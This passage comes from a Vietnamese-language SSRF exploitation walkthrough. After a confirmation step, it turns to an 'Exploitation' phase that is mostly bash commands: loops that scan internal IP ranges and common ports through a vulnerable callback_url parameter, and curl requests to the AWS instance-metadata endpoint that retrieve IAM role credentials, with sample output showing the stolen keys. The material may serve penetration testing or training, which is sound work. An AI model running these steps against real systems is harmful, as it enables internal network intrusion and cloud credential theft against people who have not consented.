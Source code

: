 ```bash
{
  "error": "Connection timeout",
  "details": "Failed to connect to 192.0.2.1:9999"
}
# ↑ Backend đã cố gắng connect → SSRF confirmed!
```

---

### **PHASE 4: EXPLOITATION (Khai thác)**

#### **4.1. Internal Network Scanning**

**Tìm internal services:**

```bash
# Scan common internal IPs
for ip in 10.0.0.{1..255}; do
  echo "Testing $ip..."
  time curl -s "https://yourapp.example.com/api/inventory/1/M?callback_url=http://$ip:8080" > /dev/null
done

# Phân tích response time:
# Fast timeout → No service
# Slow timeout → Service exists!
```

**Port scanning:**
```bash
# Common ports to check
PORTS="22 80 443 3306 5432 6379 8080 8081 8082 9200 27017"

for port in $PORTS; do
  echo "Testing port $port..."
  curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://localhost:$port"
done
```

#### **4.2. Cloud Metadata Exploitation**

**AWS EC2:**
```bash
# Lấy IAM credentials
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Response có thể chứa:
{
  "inventory": {...},
  "callback_response": {
    "role_name": "EC2-Production-Role"
  }
}

# Tiếp tục khai thác
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2-Production-Role"

# Lấy được AWS keys:
{
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "..."
}
# ↑ Game over! Có thể access toàn bộ AWS account
```